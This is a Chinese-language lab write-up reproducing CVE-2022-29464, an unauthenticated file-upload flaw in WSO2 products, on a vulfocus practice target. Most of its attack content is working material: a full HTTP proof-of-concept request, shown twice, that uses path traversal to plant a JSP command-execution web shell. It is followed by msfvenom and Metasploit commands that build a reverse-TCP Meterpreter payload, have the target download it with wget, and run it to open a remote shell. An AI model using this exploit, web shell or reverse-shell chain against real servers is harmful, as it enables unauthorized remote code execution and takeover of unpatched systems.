 ```yaml
---
title: CVE-2022-29464 WSO2文件上传
date: 2023-02-08 14:55:27
tags:
---
```


### 一、漏洞描述

WSO2文件上传漏洞是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

### 二、影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

<!-- more -->

### poc:

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

### 入口：https://ip:port/authenticationendpoint/1.jsp

### 三、漏洞复现

**1.开启靶场环境**

此处用的是vulfocus靶场相关镜像

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/1.png)

**2.访问WSO2**

访问地址为https://ip:port/carbon/admin/login.jsp

此处我的访问为 https://10.0.0.128:18966/carbon/admin/login.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/2.png)

**3.上传文件**

通过burp工具进行抓包，然后在repeater模块构造上传请求

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/3.png)

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

返回数字即为上穿成功，任何可以通过访问https://ip:port/authenticationendpoint/1.jsp

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/4.png)

至此成功实现了CVE-2022-29464文件上传漏洞

**4.取得flag**

可以在内输入指令ls查看目录结构

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/5.png)

由于vulfocus的flag存放于tmp目录下，我们直接使用指令 ls /tmp 查看flag

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/6.png)

至此成功取得flag，本次漏洞成功复现

##### **msf反弹shell**

若是这种查看方式过于繁琐，可以使用msf取得shell

**1.生成linux木马命令**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/7.png)

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.0.0.127 lport=4444 -f elf -o shell.elf
```

**2.使用python开启http服务**

python3 -m http.server 9999

**3.让靶机下载**

![image-20230131205930045](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/8.png)

在框中输入wget http://0.0.0.0:9999/shell.elf

并且给shell.elf文件执行权限 chmod 777 shell.elf

**4.开启msf监听**

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/9.png)



```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost 10.0.0.127
set lport 4444
```

**5.使靶机运行木马**

./shell.elf

在msf中就能拿到反弹的shell

![](CVE-2022-29464-WSO2%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0/10.png)
